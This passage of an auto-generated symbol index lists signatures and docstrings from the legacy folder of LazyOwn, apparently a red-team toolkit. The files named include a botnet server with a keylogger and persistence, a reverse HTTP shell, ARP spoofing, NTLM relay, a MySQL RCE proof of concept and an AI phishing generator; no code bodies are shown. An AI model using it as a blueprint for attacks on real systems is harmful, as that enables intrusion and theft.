- `extract_json_from_response` (line 164) `def extract_json_from_response(text)` - *Extrae el primer bloque JSON de una respuesta de LLM.*
- `heuristic_install_command` (line 192) `def heuristic_install_command(root_files, language)` - *Infiere un install_command básico a partir de los archivos raíz.*
- `heuristic_execute_command` (line 211) `def heuristic_execute_command(name, root_files, language)` - *Infiere un execute_command básico.*
- `heuristic_params` (line 245) `def heuristic_params(name, readme, root_files)` - *Infiere parámetros comunes basándose en el nombre y README.*
- `fallback_yaml_data` (line 276) `def fallback_yaml_data(meta, readme, root_files)` - *Genera datos de addon usando solo heurísticas locales (sin LLM).*
- `build_yaml` (line 300) `def build_yaml(data, repo_url)` - *Construye la estructura de dict que representa el addon YAML.*
- `save_yaml` (line 336) `def save_yaml(addon, output_dir)` - *Guarda el dict como archivo YAML en output_dir.*
- `main` (line 357) `def main()`

#### `lazyarpspoofing.py`
**Path:** `contrib/legacy/lazyarpspoofing.py`

**Functions:**
- `check_sudo` (line 27) `def check_sudo()`
- `enable_ip_forward` (line 35) `def enable_ip_forward()`
- `disable_ip_forward` (line 38) `def disable_ip_forward()`
- `get_local_ip` (line 41) `def get_local_ip(ifname)`
- `get_mac` (line 49) `def get_mac(ip, device, retries, timeout)`
- `spoofer` (line 69) `def spoofer(target, spoofed, device)`
- `main` (line 80) `def main()`

#### `lazybinenc.py`
**Path:** `contrib/legacy/lazybinenc.py`

**Functions:**
- `generate_key_iv` (line 12) `def generate_key_iv(sessions_path)`
- `main` (line 54) `def main()`

#### `lazybotcli.py`
**Path:** `contrib/legacy/lazybotcli.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Cliente LazyOwn BotNet  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `encrypt` (line 30) `def encrypt(plaintext, key)`
- `decrypt` (line 36) `def decrypt(ciphertext, key)`
- `main` (line 42) `def main()`

#### `lazybotnet.py`
**Path:** `contrib/legacy/lazybotnet.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Servidor LazyOwn BotNet  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `Keylogger` (line 89) `class Keylogger`

**Functions:**
- `encrypt` (line 46) `def encrypt(plaintext, key)`
- `decrypt` (line 52) `def decrypt(ciphertext, key)`
- `add_to_botnet` (line 58) `def add_to_botnet(ip, port, botnet_file)`
- `clean_botnet` (line 62) `def clean_botnet(ip, port, botnet_file)`
- `send_to_botnet` (line 71) `def send_to_botnet(cmd, key, botnet_file)`
- `handle_client` (line 144) `def handle_client(conn, key, botnet_file, log_file)`
- `start_server` (line 182) `def start_server(host, port, key, botnet_file, log_file)`

**Methods:**
- `__init__` (line 90) `def __init__(self, key, log_file)`
- `on_press` (line 95) `def on_press(self, key)`
- `start` (line 106) `def start(self)`
- `get_log` (line 110) `def get_log(self)`
- `save_log` (line 113) `def save_log(self)`
- `run` (line 120) `def run(self)`
- `setup_persistence` (line 125) `def setup_persistence(self)`
- `create_shortcut` (line 136) `def create_shortcut(self, script_path, shortcut_path)`

#### `lazycam.py`
**Path:** `contrib/legacy/lazycam.py`
**File Doc:** *This code is a portion of frigate Event Video Recorder (fEVR)  Copyright (C) 2021-2022  The Bearded Tek (http://www.beardedtek.com) William Kenny  This program is free software: you can redistribute it and/or modify it under the terms of the GNU Affero General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License for more details.  You should have received a copy of the GNU AfferoGeneral Public License along with this program.  If not, see <https://www.gnu.org/licenses/>.  Scans given ports of an IPv4 Address or an IPv4 Network for RTSP Streams and adds them to or removes them from rtsp-simple-server via its API*

**Classes:**
- `RTSPScanner` (line 32) `class RTSPScanner`

**Functions:**
- `cla` (line 212) `def cla()`
- `main` (line 257) `def main()`

**Methods:**
- `__init__` (line 33) `def __init__(self, verbose, wspace)`
- `run` (line 49) `def run(self)`
- `resizeImg` (line 68) `def resizeImg(self, img, output, height, ratio, fmt)`
- `splitCSV` (line 77) `def splitCSV(self, csv)`
- `scanner` (line 83) `def scanner(self)`
- `delCameras` (line 136) `def delCameras(self)`
- `addCameras` (line 149) `def addCameras(self)`

#### `lazycreate_webshell.py`
**Path:** `contrib/legacy/lazycreate_webshell.py`

*No symbols extracted*

#### `lazydeepseekcli.py`
**Path:** `contrib/legacy/lazydeepseekcli.py`
**File Doc:** *Unified Ollama/DeepSeek client for LazyOwn — merges lazydeepseekcli_local + lazydeepseekcli_localreport.  Provides streaming SSE responses via Flask for both red-team strategy and pentest report generation. Original ``process_prompt_local`` and ``process_prompt_localreport`` signatures preserved.  Usage::  from modules.legacy.lazydeepseekcli import process_prompt_local, process_prompt_localreport*

**Functions:**
- `truncate_message` (line 41) `def truncate_message(message, max_chars)`
- `configure_logging` (line 45) `def configure_logging(debug)`
- `_load_payload_kv` (line 50) `def _load_payload_kv()`
- `_load_report_context` (line 68) `def _load_report_context()`
- `_prompt_redteam` (line 79) `def _prompt_redteam(base_prompt, history, knowledge_base)`
- `_prompt_report` (line 118) `def _prompt_report(base_prompt, history, knowledge_base)`
- `load_knowledge_base` (line 167) `def load_knowledge_base(file_path)`
- `save_knowledge_base` (line 174) `def save_knowledge_base(knowledge_base, file_path)`
- `add_to_knowledge_base` (line 179) `def add_to_knowledge_base(prompt, command, file_path)`
- `get_relevant_knowledge` (line 185) `def get_relevant_knowledge(prompt)`
- `transform_knowledge_base` (line 193) `def transform_knowledge_base(prompt_builder)`
- `_ollama_stream` (line 223) `def _ollama_stream(prompt_text, mode)`
- `process_prompt_local` (line 255) `def process_prompt_local(prompt, debug, mode)`
- `process_prompt_localreport` (line 263) `def process_prompt_localreport(prompt, debug, mode)`
- `parse_args` (line 271) `def parse_args()`
- `generate` (line 231) `def generate()`

#### `lazydisassebler.py`
**Path:** `contrib/legacy/lazydisassebler.py`
**File Doc:** *disassembler.py  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Date: 14/04/2025 Licencia: GPL v3  Description: This file contain a rudimentary disassembler with no warranty  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `X64Disassembler` (line 24) `class X64Disassembler` - *A disassembler class for x86-64 architecture.

This class provides methods to disassemble raw binary data into human-readable assembly instructions.
It supports parsing ELF headers, decoding ModR/M and SIB bytes, and handling various instruction formats.

License: GPL v3*

**Functions:**
- `main` (line 489) `def main()` - *Main function for the disassembler.

This function handles command-line arguments, reads the binary file,
and initiates the disassembly process for an ELF file.

Usage: python3 disassembler.py <binary_file>*

**Methods:**
- `__init__` (line 34) `def __init__(self)` - *Initializes the X64Disassembler instance.

Sets up registers, syscalls, and other necessary attributes for disassembly.*
- `read_elf_header` (line 79) `def read_elf_header(self, data)` - *Reads the ELF header and finds the code section.

This function parses the ELF file header to locate the executable segment (TEXT).
It checks for 64-bit ELF files and extracts the program headers to find the
first executable segment. Returns the offset, virtual address, size and entry point
of the TEXT segment if found.

Parameters:
    data (bytes): The raw bytes of the ELF file

Returns:
    tuple: (offset, virtual_address, size, entry_point) or (None, None, None, None) if not found

Licencia: GPL v3*
- `parse_modrm` (line 135) `def parse_modrm(self, modrm, rex)` - *Parses the ModR/M byte and extracts mod, reg, and rm fields.

This function decodes the ModR/M byte used in x86/x64 instructions to determine
how operands are addressed. It also applies REX prefix extensions if present.

Parameters:
    modrm (int): The ModR/M byte to be parsed.
    rex (int): Optional REX prefix byte (default is 0).

Returns:
    tuple: A tuple containing the decoded `mod`, `reg`, and `rm` fields.

License: GPL v3*
- `parse_sib` (line 173) `def parse_sib(self, sib, rex)` - *Parses the SIB byte and extracts scale, index, and base fields.

This function decodes the Scale/Index/Base (SIB) byte used in x86/x64 addressing modes
to determine how memory operands are addressed. It also applies REX prefix extensions
if present.

Parameters:
    sib (int): The SIB byte to be parsed.
    rex (int): Optional REX prefix byte (default is 0).

Returns:
    tuple: A tuple containing the decoded `scale`, `index`, and `base` fields.

License: GPL v3*
- `get_operand_str` (line 212) `def get_operand_str(self, mod, rm, rex, bytes_data, offset)` - *Gets the string representation of the operand based on mod/rm.

This function decodes the addressing mode specified by the `mod` and `rm` fields
in x86/x64 instructions. It handles different cases such as RIP-relative, SIB,
and direct register addressing, applying REX prefix extensions if present.

Parameters:
    mod (int): The 'mod' field from the ModR/M byte.
    rm (int): The 'rm' field from the ModR/M byte.
    rex (int): Optional REX prefix byte.
    bytes_data (bytes): The raw instruction bytes.
    offset (int): Current offset in the instruction bytes.

Returns:
    tuple: A tuple containing the operand string representation and the number
        of additional bytes consumed during parsing.

License: GPL v3*
- `disassemble` (line 305) `def disassemble(self, bytes_data, file_offset, vaddr, size, entry_point)` - *Main disassembler for x86-64 code.

This function disassembles raw machine code into human-readable assembly instructions.
It handles various instruction types, including XOR, PUSH/POP, MOV, immediate loads,
and system calls. Additionally, it processes REX prefixes and supports RIP-relative addressing.

Parameters:
    bytes_data (bytes): Raw binary data of the code section.
    file_offset (int): File offset of the code section.
    vaddr (int): Virtual address of the code section.
    size (int): Size of the code section in bytes.
    entry_point (int): Entry point of the program.

License: GPL v3*

#### `lazyftpsniff.py`
**Path:** `contrib/legacy/lazyftpsniff.py`

**Functions:**
- `check_sudo` (line 21) `def check_sudo()`
- `signal_handler` (line 34) `def signal_handler(sig, frame)`
- `parse_arguments` (line 42) `def parse_arguments()`
- `sniffer_ftp` (line 56) `def sniffer_ftp(pkt)`
- `main` (line 69) `def main()`

#### `lazygalazy.py`
**Path:** `contrib/legacy/lazygalazy.py`

**Classes:**
- `SamsungKnoxExploitServer` (line 8) `class SamsungKnoxExploitServer(BaseHTTPRequestHandler)`

**Functions:**
- `main` (line 97) `def main()`

**Methods:**
- `do_GET` (line 11) `def do_GET(self)`
- `apk_bytes` (line 33) `def apk_bytes(self)`
- `launch_html` (line 36) `def launch_html(self)`
- `exploit_js` (line 49) `def exploit_js(self)`
- `rand_word` (line 93) `def rand_word(self)`

#### `lazygptcli.py`
**Path:** `contrib/legacy/lazygptcli.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Assistente de consola  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `signal_handler` (line 66) `def signal_handler(sig, frame)`
- `show_help` (line 73) `def show_help(message)`
- `check_api_key` (line 77) `def check_api_key()`
- `configure_logging` (line 83) `def configure_logging(debug)`
- `parse_args` (line 87) `def parse_args()`
- `create_complex_prompt` (line 94) `def create_complex_prompt(base_prompt, history, knowledge_base, error_message)`
- `execute_command` (line 108) `def execute_command(command)`
- `load_knowledge_base` (line 118) `def load_knowledge_base(file_path)`
- `save_knowledge_base` (line 124) `def save_knowledge_base(knowledge_base, file_path)`
- `add_to_knowledge_base` (line 128) `def add_to_knowledge_base(prompt, command, file_path)`
- `get_relevant_knowledge` (line 133) `def get_relevant_knowledge(prompt)`
- `transform_knowledge_base` (line 141) `def transform_knowledge_base(client)`
- `cleanup_temp_files` (line 164) `def cleanup_temp_files()`
- `main` (line 177) `def main()`

#### `lazygptcli_unified.py`
**Path:** `contrib/legacy/lazygptcli_unified.py`
**File Doc:** *Unified Groq LLM client for LazyOwn — merges lazygptcli2/3/4/5 + lazyagentAi + lazygpttask + lazygptvulns + lazyredopgpt.  All original ``process_prompt_*`` function signatures are preserved for backward compatibility (used by ``llm_adapter.py`` and the C2 dashboard).  Shared utility functions (knowledge-base CRUD, truncation, logging) are defined once and reused across all task variants.  Usage::  from modules.legacy.lazygptcli import ( Groq, process_prompt, process_prompt_script, process_prompt_adversary, process_prompt_general, process_prompt_search, process_prompt_task, process_prompt_vuln, process_prompt_redop, )*

**Functions:**
- `_ret_model` (line 45) `def _ret_model()`
- `truncate_message` (line 53) `def truncate_message(message, max_chars)`
- `_configure_logging` (line 57) `def _configure_logging(debug)`
- `_load_knowledge_base` (line 62) `def _load_knowledge_base(file_path)`
- `_save_knowledge_base` (line 70) `def _save_knowledge_base(knowledge_base, file_path)`
- `_add_to_knowledge_base` (line 76) `def _add_to_knowledge_base(prompt, response, file_path)`
- `_get_relevant_knowledge` (line 82) `def _get_relevant_knowledge(prompt, file_path)`
- `_transform_knowledge_base` (line 95) `def _transform_knowledge_base(client, kb_file, improved_file)`
- `_groq_chat` (line 115) `def _groq_chat(client, messages, model, max_tokens)`
- `_load_payload_kv` (line 129) `def _load_payload_kv()`
- `_load_event_config` (line 147) `def _load_event_config()`
- `_prompt_oneliner` (line 159) `def _prompt_oneliner(base_prompt, history, knowledge_base)`
- `_prompt_script` (line 175) `def _prompt_script(base_prompt, history, knowledge_base)`
- `_prompt_adversary` (line 190) `def _prompt_adversary(base_prompt, history, knowledge_base)`
- `_prompt_general` (line 206) `def _prompt_general(base_prompt, history, knowledge_base)`
- `_prompt_search` (line 225) `def _prompt_search(base_prompt, history, knowledge_base)`
- `_prompt_vuln` (line 239) `def _prompt_vuln(base_prompt, history, knowledge_base)`
- `_prompt_task` (line 254) `def _prompt_task(base_prompt, history, knowledge_base)`
- `_prompt_redop` (line 267) `def _prompt_redop(base_prompt, history, knowledge_base)`
- `_process_groq` (line 287) `def _process_groq(client, prompt, debug, prompt_template, kb_file, model)`
- `process_prompt` (line 318) `def process_prompt(client, prompt, debug)` - *Generate a single-line shell command from a user prompt.*
- `process_prompt_script` (line 323) `def process_prompt_script(client, prompt, debug)` - *Generate a full script from a user prompt.*
- `process_prompt_adversary` (line 328) `def process_prompt_adversary(client, prompt, debug)` - *Answer questions about MITRE ATT&CK techniques and Atomic Red Team.*
- `process_prompt_general` (line 333) `def process_prompt_general(client, prompt, debug)` - *General red team assistant with payload.json context and DeepSeek fallback.*
- `process_prompt_search` (line 341) `def process_prompt_search(client, prompt, debug)` - *Research and threat intelligence analysis.*
- `process_prompt_task` (line 346) `def process_prompt_task(client, prompt, debug)` - *Analyze task assessment JSON for completion status and next commands.*
- `process_prompt_vuln` (line 356) `def process_prompt_vuln(client, prompt, debug, event)` - *Analyze Nmap output for vulnerabilities and generate penetration test action plan.*
- `process_prompt_redop` (line 382) `def process_prompt_redop(client, prompt, debug)` - *Evaluate Red Team operation status from JSON database params.*
- `_deepseek_fallback` (line 392) `def _deepseek_fallback(prompt)`

#### `lazyhoneypot.py`
**Path:** `contrib/legacy/lazyhoneypot.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: LazyOwn HoneyPot  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Classes:**
- `Server` (line 60) `class Server(ServerInterface)`

**Functions:**
- `parse_args` (line 34) `def parse_args()`
- `setup_logging` (line 52) `def setup_logging(log_file)`
- `generate_rsa_key` (line 56) `def generate_rsa_key(key_filename)`
- `handle_connection` (line 74) `def handle_connection(client_socket, host_key, commands_log, downloads_log, downloads_dir)`
- `handle_file_download` (line 110) `def handle_file_download(command, downloads_dir, downloads_log)`
- `log_command` (line 128) `def log_command(command, commands_log)`
- `log_downloaded_file` (line 132) `def log_downloaded_file(filename, url, downloads_log)`
- `analyze_traffic` (line 136) `def analyze_traffic()`
- `alert_admin` (line 147) `def alert_admin(message)`
- `main` (line 165) `def main()`
- `process_packet` (line 137) `def process_packet(packet)`

**Methods:**
- `__init__` (line 61) `def __init__(self)`
- `check_channel_request` (line 64) `def check_channel_request(self, kind, chanid)`
- `check_auth_password` (line 69) `def check_auth_password(self, username, password)`

#### `lazyhttpreverseshell.py`
**Path:** `contrib/legacy/lazyhttpreverseshell.py`

**Classes:**
- `RequestHandler` (line 51) `class RequestHandler(BaseHTTPRequestHandler)`

**Functions:**
- `encrypt` (line 14) `def encrypt(data)`
- `decrypt` (line 17) `def decrypt(data)`
- `compress` (line 20) `def compress(data)`
- `decompress` (line 23) `def decompress(data)`
- `reverse_http_shell_client` (line 26) `def reverse_http_shell_client(lhost, rhost, rport)`
- `reverse_http_shell_server` (line 50) `def reverse_http_shell_server(lhost, lport)`
- `parse_arguments` (line 88) `def parse_arguments(args)`

**Methods:**
- `do_GET` (line 52) `def do_GET(self)`
- `do_POST` (line 65) `def do_POST(self)`

#### `lazykeygen.py`
**Path:** `contrib/legacy/lazykeygen.py`

**Functions:**
- `pad` (line 8) `def pad(s)`
- `encrypt` (line 11) `def encrypt(plaintext, key)`
- `decrypt` (line 17) `def decrypt(ciphertext, key)`
- `generate_key` (line 23) `def generate_key(length)`
- `main` (line 26) `def main()`

#### `lazylfi2rce.py`
**Path:** `contrib/legacy/lazylfi2rce.py`

**Functions:**
- `signal_handler` (line 29) `def signal_handler(sig, frame)`
- `check_lfi_success` (line 35) `def check_lfi_success(response_text)`
- `check_rfi_success` (line 39) `def check_rfi_success(response_text)`
- `main` (line 43) `def main()`

#### `lazyllmchat.py`
**Path:** `contrib/legacy/lazyllmchat.py`

**Classes:**
- `LazyOwnShellBridge` (line 22) `class LazyOwnShellBridge`
- `SessionContextProvider` (line 104) `class SessionContextProvider`
- `PromptBuilder` (line 123) `class PromptBuilder`
- `LLMEngine` (line 163) `class LLMEngine`
- `LazyOwnPromptRenderer` (line 198) `class LazyOwnPromptRenderer`
- `LazyOwnLLMChat` (line 234) `class LazyOwnLLMChat`

**Functions:**
- `main` (line 309) `def main()`
- `target` (line 70) `def target()`
- `no_history_init` (line 38) `def no_history_init(self_)`

**Methods:**
- `__init__` (line 25) `def __init__(self, script_path)`
- `_load_shell` (line 31) `def _load_shell(self)`
- `execute` (line 65) `def execute(self, command)`
- `__init__` (line 105) `def __init__(self, session_path)`
- `get_last_lines` (line 108) `def get_last_lines(self, count)`
- `for_command_analysis` (line 133) `def for_command_analysis(command, output, context, history)`
- `for_direct_query` (line 149) `def for_direct_query(query, context, history)`
- `__init__` (line 164) `def __init__(self)`
- `_load_model` (line 170) `def _load_model(self)` - *Load the configured LLM backend through the central factory.

Returns ``None`` silently when neither Groq nor Ollama is
reachable so the chat UI can degrade gracefully instead of
crashing the operator shell.*
- `is_ready` (line 179) `def is_ready(self)`
- `ask` (line 182) `def ask(self, prompt)`
- `get_history_text` (line 194) `def get_history_text(self)`
- `render` (line 208) `def render(self)`
- `banner` (line 223) `def banner(self)`
- `__init__` (line 235) `def __init__(self)`
- `_get_context` (line 242) `def _get_context(self)`
- `_run_shell_command` (line 245) `def _run_shell_command(self, command)`
- `_run_system_command` (line 251) `def _run_system_command(self, command)`
- `_analyze` (line 263) `def _analyze(self, command, output)`
- `_direct_query` (line 273) `def _direct_query(self, query)`
- `run` (line 280) `def run(self, initial_query)`

#### `lazylogpoisoning.py`
**Path:** `contrib/legacy/lazylogpoisoning.py`

**Functions:**
- `ensure_http_prefix` (line 39) `def ensure_http_prefix(url)`
- `signal_handler` (line 45) `def signal_handler(sig, frame)`
- `main` (line 53) `def main()`

#### `lazymariadb_rce_cve_2016-662.py`
**Path:** `contrib/legacy/lazymariadb_rce_cve_2016-662.py`
**File Doc:** *MySQL / MariaDB / Percona -  Remote Root Code Execution / PrivEsc PoC Exploit (CVE-2016-6662) 0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)  For testing purposes only. Do no harm.  Discovered/Coded by:  Dawid Golunski http://legalhackers.com   This is a limited version of the PoC exploit. It only allows appending to existing mysql config files with weak permissions. See V) 1) section of the advisory for details on this vector.  Full PoC will be released at a later date, and will show how attackers could exploit the vulnerability on default installations of MySQL on systems with no writable my.cnf config files available.  The upcoming advisory CVE-2016-6663 will also make the exploitation trivial for certain low-privileged attackers that do not have FILE privilege.  See full advisory for details: https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html  Video PoC:*

**Functions:**
- `info` (line 59) `def info(str)`
- `errmsg` (line 63) `def errmsg(str)`
- `shutdown` (line 67) `def shutdown(code)`

#### `lazymidm.py`
**Path:** `contrib/legacy/lazymidm.py`

**Functions:**
- `get_mac` (line 12) `def get_mac(ip)`
- `spoof` (line 18) `def spoof(target_ip, spoof_ip)`
- `restore` (line 27) `def restore(target_ip, spoof_ip)`
- `mitm` (line 37) `def mitm(target_ip, gateway_ip)`
- `start_sslstrip` (line 50) `def start_sslstrip(port)`
- `start_tcpdump` (line 54) `def start_tcpdump(interface, output_file)`
- `setup_monitor_mode` (line 58) `def setup_monitor_mode(interface)`
- `main` (line 68) `def main()`

#### `lazymitmap.py`
**Path:** `contrib/legacy/lazymitmap.py`

**Functions:**
- `_sudo_run` (line 14) `def _sudo_run()` - *Run sudo argv list-form, no shell.*
- `_validate_iface` (line 19) `def _validate_iface(value, name)` - *Validate network interface name.*
- `print_header` (line 45) `def print_header()`
- `run_cmd_write` (line 49) `def run_cmd_write(cmd_args, s)` - *Write a file using sudo.*
- `write_file` (line 63) `def write_file(path, s)`
- `append_file` (line 67) `def append_file(path, s)` - *Append to the file, don't overwrite.*
- `create_dir` (line 72) `def create_dir(directory)` - *Create directory with sudo if it does not exist.*
- `set_permissions` (line 77) `def set_permissions(directory, permissions)` - *Set directory permissions with sudo.*
- `install_dependencies` (line 84) `def install_dependencies()` - *Install required dependencies.*
- `backup_file` (line 121) `def backup_file(filepath)` - *Backup a given file.*
- `restore_file` (line 128) `def restore_file(filepath)` - *Restore a backed-up file.*
- `restart_service` (line 138) `def restart_service(service)` - *Restart a given service.*
- `flush_iptables` (line 145) `def flush_iptables()` - *Flush iptables rules.*
- `setup_network_manager` (line 153) `def setup_network_manager(ap_iface)` - *Setup NetworkManager configuration for the AP interface.*
- `configure_dnsmasq` (line 163) `def configure_dnsmasq(ap_iface, ap_ip_range_start, ap_ip_range_end, ap_ip_gateway, dns_ip_1, dns_ip_2, sslstrip)` - *Configure dnsmasq based on SSLSTRIP usage.*
- `configure_hostapd` (line 195) `def configure_hostapd(ap_iface, ssid, channel, wpa_passphrase)` - *Configure hostapd based on user input.*
- `setup_iptables` (line 228) `def setup_iptables(ap_iface, ap_ip, net_iface)` - *Setup iptables rules.*
- `set_speed_limit` (line 248) `def set_speed_limit(ap_iface, speed_up, speed_down)` - *Set speed limit for the clients.*
- `start_services` (line 254) `def start_services(ap_iface, script_path, sslstrip, wireshark, driftnet, tshark)` - *Start necessary services based on user input.*
- `cleanup` (line 315) `def cleanup()` - *Cleanup actions to restore system state.*
- `signal_handler` (line 324) `def signal_handler(sig, frame)`

#### `lazynetbios.py`
**Path:** `contrib/legacy/lazynetbios.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: exploit netbios  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `check_sudo` (line 30) `def check_sudo()`
- `signal_handler` (line 38) `def signal_handler(sig, frame)`
- `scan_netbios` (line 45) `def scan_netbios(ip_range)`
- `check_arp` (line 58) `def check_arp(ip)`
- `check_netbios` (line 71) `def check_netbios(ip)`
- `send_nbns_spoof` (line 90) `def send_nbns_spoof(target_ip, target_name, spoof_ip, trans_id)`
- `generate_ip_range` (line 115) `def generate_ip_range(start_ip, end_ip)`

#### `lazyntlrelayx.py`
**Path:** `contrib/legacy/lazyntlrelayx.py`

**Functions:**
- `parse_hash_file` (line 5) `def parse_hash_file(file_path)`
- `ntlm_relay` (line 52) `def ntlm_relay(target_ip, credentials)`

#### `lazyopenssh77enum2.py`
**Path:** `contrib/legacy/lazyopenssh77enum2.py`
**File Doc:** *CVE-2018-15473 SSH User Enumeration by Leap Security (@LeapSecurity) https://leapsecurity.io Credits: Matthew Daley, Justin Gardner, Lee David Painter*

**Classes:**
- `InvalidUsername` (line 14) `class InvalidUsername(Exception)`

**Functions:**
- `add_boolean` (line 19) `def add_boolean()`
- `service_accept` (line 30) `def service_accept()`
- `invalid_username` (line 36) `def invalid_username()`
- `check_user` (line 50) `def check_user(username)`

#### `lazyphishingai.py`
**Path:** `contrib/legacy/lazyphishingai.py`
**File Doc:** *main.py  Author: Gris Iscomeback Email: grisiscomeback[at]gmail[dot]com Creation Date: 09/06/2024 License: GPL v3  Description: Console assistant for generating dynamic YAML phishing templates using AI*

**Functions:**
- `clean_think` (line 28) `def clean_think(texto)`
- `clean_yaml` (line 31) `def clean_yaml(texto)`
- `truncate_message` (line 37) `def truncate_message(message, max_chars)`
- `configure_logging` (line 42) `def configure_logging(debug)`
- `create_complex_prompt` (line 46) `def create_complex_prompt(base_prompt, history, knowledge_base)`
- `load_knowledge_base` (line 101) `def load_knowledge_base(file_path)`
- `save_knowledge_base` (line 110) `def save_knowledge_base(knowledge_base, file_path)`
- `add_to_knowledge_base` (line 117) `def add_to_knowledge_base(prompt, command, file_path)`
- `get_relevant_knowledge` (line 122) `def get_relevant_knowledge(prompt)`
- `process_prompt_local_yaml` (line 132) `def process_prompt_local_yaml(prompt, debug, mode, output_file)`
- `parse_args` (line 192) `def parse_args()`
- `generate` (line 155) `def generate()`

#### `lazyproxy.py`
**Path:** `contrib/legacy/lazyproxy.py`

**Functions:**
- `check_sudo` (line 40) `def check_sudo()`
- `signal_handler` (line 47) `def signal_handler(sig, frame)`
- `hexdump` (line 52) `def hexdump(src, length)`
- `receive_from` (line 63) `def receive_from(connection)`
- `request_handler` (line 77) `def request_handler(buffer)`
- `response_handler` (line 82) `def response_handler(buffer)`
- `get_ip_from_url` (line 87) `def get_ip_from_url(url)`
- `handle_request` (line 104) `def handle_request(client_socket, address)`
- `start_proxy` (line 183) `def start_proxy()`

#### `lazypwn.py`
**Path:** `contrib/legacy/lazypwn.py`

**Classes:**
- `BinaryFinder` (line 24) `class BinaryFinder`
- `BinaryAttacker` (line 70) `class BinaryAttacker`

**Functions:**
- `main` (line 181) `def main()`

**Methods:**
- `__init__` (line 25) `def __init__(self)`
- `find_suid_binaries` (line 28) `def find_suid_binaries(self)`
- `find_capabilities_binaries` (line 36) `def find_capabilities_binaries(self)`
